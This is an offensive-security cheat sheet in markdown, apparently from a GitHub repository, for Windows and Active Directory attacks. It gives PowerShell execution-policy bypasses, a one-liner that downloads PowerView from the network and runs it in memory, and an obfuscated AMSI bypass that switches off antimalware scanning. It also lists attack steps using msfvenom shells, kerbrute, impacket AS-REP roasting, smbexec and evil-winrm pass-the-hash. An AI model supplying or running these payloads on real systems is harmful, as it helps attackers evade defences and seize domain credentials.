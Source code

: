 [-] if you try to run script `.ps1` and get this error : `cannot be loaded because running scripts is disabled on this system`
run this command to bypass
Ps> `Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass`
or 
ps> `$env:PSExecutionPolicyPrefernce="bypass"`
or
Ps> `powershell -ExecutionPolicy bypass`

---
[-] shortcuts
ctrl + L > clean 

[-] put your tools in `/var/www/html` and run `service apache2 start` 

[-] after download PowerUp.ps1 we run Invoke-AllChecks 

[-] cmd> `sc qc "service name"` toget info about this service
[-] cmd> `icacls "path"`  to view the privilages
[-] we use msfvenom tool in kali to create shell
[-] if we are in anonymous network , we use nmap to scan network and use enum4linux to enumerate the network
[-] we can add the domain name and ip in /etc/hosts

[-] https://github.com/ropnop/kerbrute
A tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication

[-] we use GetNPUsers.py from impacket to enumerate users and their As RES
[-] we use "evil-winrm" tool to login using lm hash
[-] we use smbexec.py from impacket
[-] we use ntdustil to obtaining access to back-up 

---

### Domain Enumeration

To Get Current privilages :  
`Ps> whoami /privilages`
To enumerate for current domain and forest :  

``` Powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
$ADClass::GetCurrentDomain()
```

---

To Speed up the process we can use [PowerView ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)


installing PowerView can be done in multiple ways for example:
``` Powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
```
NOTE : WORKED FOR Windows 7
NOTE : For Windows 10 , the AMSI blocks the installation we can bypass the AMSI by typing the following command:
``` Powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} ) 
```
